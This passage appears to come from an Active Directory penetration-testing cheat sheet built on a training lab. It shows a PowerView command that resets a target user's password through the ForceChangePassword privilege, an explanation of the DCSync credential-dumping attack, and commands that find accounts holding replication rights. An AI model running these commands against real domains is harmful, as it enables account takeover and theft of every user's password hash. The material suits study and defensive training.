 #### Privilege: `ForceChangePassword`

  * **What it means:** The holder can reset a user's password without needing to know the current password.
  * **How to Exploit:** Simply set a new password for the target user and then log in as them.
  * **Example Exploit (resetting the password for user 'damundsen'):**
    ```powershell
    Set-DomainUserPassword -Identity 'damundsen' -AccountPassword 'Pwn3d!Summer2025' -Verbose
    ```

-----

## DCSync

DCSync is an attack that abuses a specific set of permissions in Active Directory, namely `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`. A user with these rights can impersonate a Domain Controller (DC) and ask another DC to replicate user credential data. This includes the NTLM hashes of **all users**, including the `krbtgt` account—the golden ticket master key. Gaining these rights is often a "win" condition for an attacker. 👑

### Finding Users with DCSync Rights

Before you can perform the attack, you must identify a user who has been granted these permissions.

#### `Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { $_.ObjectAceType -match 'Replication-Get'}`

  * **What it does:** This PowerView command queries the Access Control List (ACL) of the domain object itself. It then filters this list to find only the Access Control Entries (ACEs) that grant the specific "Replication-Get-Changes" permissions required for a DCSync attack.
  * **When to use it:** During credentialed enumeration to proactively hunt for users or groups that have been granted these powerful rights. Compromising any principal found in this output becomes your top priority.
  * **Example Command:**
    ```powershell
    # First, find the SID of the user you want to check, e.g., 'adunn'
    $sid = (Get-DomainUser adunn).ObjectSid.Value

    # Now, check for DCSync rights on the domain for that specific SID
    Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ? {$_.SecurityIdentifier -match $sid}
    ```
  * **Options:**
      * `-ResolveGUIDs`: Translates internal GUIDs into human-readable permission names.
      * `? { ... }`: This is a PowerShell `Where-Object` clause used to filter the ACLs. The first part looks for the specific `Replication-Get` permissions, and the second (optional) part can check if a specific user (`$sid`) has those rights.
